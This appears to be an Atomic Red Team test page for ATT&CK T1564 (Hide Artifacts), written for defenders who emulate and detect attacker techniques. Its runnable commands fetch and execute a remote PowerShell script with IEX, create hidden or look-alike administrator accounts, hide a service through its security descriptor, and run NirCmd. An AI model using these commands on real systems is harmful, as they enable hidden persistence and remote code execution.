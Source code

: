 ```yaml
---
tags: [T1564, atomic_test]
filename: "[[T1564|T1564 - Hide Artifacts]]"
---
```

# T1564 - Hide Artifacts

## Atomic Test #1 - Extract binary files via VBA
This module extracts a binary (calc.exe) from inside of another binary. 

In the wild maldoc authors will use this technique to hide binaries inside of files stored 
within the office document itself. An example of this technique can be seen in sample

f986040c7dd75b012e7dfd876acb33a158abf651033563ab068800f07f508226

This sample contains a document inside of itself. Document 1 is the actual maldoc itself, document 2
is the same document without all the malicious code. Document 1 will copy Document 2 to the file system
and then "peek" inside of this document and pull out the oleObject.bin file. Contained inside of this
oleObject.bin file is a payload that is parsed out and executed on the file system.

**Supported Platforms:** Windows


**auto_generated_guid:** 6afe288a-8a8b-4d33-a629-8d03ba9dad3a






#### Attack Commands: Run with `powershell`! 


```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Create a Hidden User Called "$"
Creating a user with a username containing "$"

**Supported Platforms:** Windows


**auto_generated_guid:** 2ec63cc2-4975-41a6-bf09-dffdfb610778






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:
```cmd
net user $ /DELETE 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)
Creating a user with a username containing with a space on the end

**Supported Platforms:** Windows


**auto_generated_guid:** 5bb20389-39a5-4e99-9264-aeb92a55a85c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```





<br/>
<br/>

## Atomic Test #4 - Create and Hide a Service with sc.exe
The following technique utilizes sc.exe and sdset to change the security descriptor of a service and "hide" it from Get-Service or sc query.

Upon successful execution, sc.exe creates a new service changes the security descriptor.

https://twitter.com/Alh4zr3d/status/1580925761996828672
https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format

**Supported Platforms:** Windows


**auto_generated_guid:** 333c7de0-6fbe-42aa-ac2b-c7e40b18246a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | Name of service to create | string | AtomicService|
| executable_command | Command to execute as a service | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create #{service_name} binPath= "#{executable_command}"
sc sdset #{service_name} "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

#### Cleanup Commands:
```cmd
sc sdset #{service_name} "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
sc.exe delete #{service_name}
```





<br/>
<br/>

## Atomic Test #5 - Command Execution with NirCmd
NirCmd is used by threat actors to execute commands, which can include recon and privilege escalation via running commands via the SYSTEM account
See https://www.kroll.com/en/insights/publications/cyber/black-basta-technical-analysis

**Supported Platforms:** Windows


**auto_generated_guid:** 2748ab4a-1e0b-4cf2-a2b0-8ef765bec7be





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nircmd_location | Location of nircmd executable | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;nircmd.exe|
| command_to_execute | Command for nircmd to execute | Path | win child class "Shell_TrayWnd" hide class "TrayClockWClass"|
| cleanup_command_to_execute | Cleanup command to undo the arbitrary command ran by nircmd | Path | win child class "Shell_TrayWnd" show class "TrayClockWClass"|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c "#{nircmd_location}" #{command_to_execute}
```

#### Cleanup Commands:
```powershell
cmd /c "#{nircmd_location}" #{cleanup_command_to_execute} -erroraction silentlycontinue | out-null
```



#### Dependencies:  Run with `powershell`!
##### Description: The Nircmd executable must exist at (#{nircmd_location})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{nircmd_location}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://www.nirsoft.net/utils/nircmd-x64.zip" -outfile "PathToAtomicsFolder\..\ExternalPayloads\nircmd.zip" 
expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\nircmd.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\"
```




<br/>
